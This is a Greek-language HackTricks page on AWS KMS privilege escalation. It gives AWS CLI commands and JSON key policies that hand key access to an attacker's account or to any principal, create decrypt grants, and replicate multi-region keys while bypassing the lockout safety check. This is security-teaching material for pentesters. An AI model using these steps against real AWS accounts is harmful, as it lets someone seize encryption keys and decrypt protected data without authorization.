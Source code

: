 # AWS - KMS Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες σχετικά με το KMS ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Με αυτές τις άδειες είναι δυνατό να **τροποποιήσετε τις άδειες πρόσβασης στο κλειδί** ώστε να μπορεί να χρησιμοποιηθεί από άλλους λογαριασμούς ή ακόμα και από οποιονδήποτε:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Επιτρέπει σε έναν κύριο να χρησιμοποιήσει ένα KMS κλειδί:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Μια παραχώρηση μπορεί να επιτρέπει μόνο ορισμένους τύπους λειτουργιών: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Σημειώστε ότι μπορεί να χρειαστούν μερικά λεπτά για να **επιτραπεί στον χρήστη να χρησιμοποιήσει το κλειδί μετά την δημιουργία της παραχώρησης**. Μόλις περάσει αυτός ο χρόνος, ο κύριος μπορεί να χρησιμοποιήσει το κλειδί KMS χωρίς να χρειάζεται να καθορίσει οτιδήποτε.\
Ωστόσο, αν χρειάζεται να χρησιμοποιηθεί η παραχώρηση αμέσως [χρησιμοποιήστε ένα token παραχώρησης](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (ελέγξτε τον παρακάτω κώδικα).\
Για [**περισσότερες πληροφορίες διαβάστε αυτό**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Σημειώστε ότι είναι δυνατόν να καταχωρήσετε τις παραχωρήσεις κλειδιών με:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Με αυτές τις άδειες είναι δυνατή η αναπαραγωγή ενός KMS κλειδιού που είναι ενεργοποιημένο για πολλαπλές περιοχές σε μια διαφορετική περιοχή με διαφορετική πολιτική.

Έτσι, ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να αποκτήσει privesc την πρόσβασή του στο κλειδί και να το χρησιμοποιήσει.

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Αυτή η άδεια επιτρέπει τη χρήση ενός κλειδιού για την αποκρυπτογράφηση κάποιων πληροφοριών.\
Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
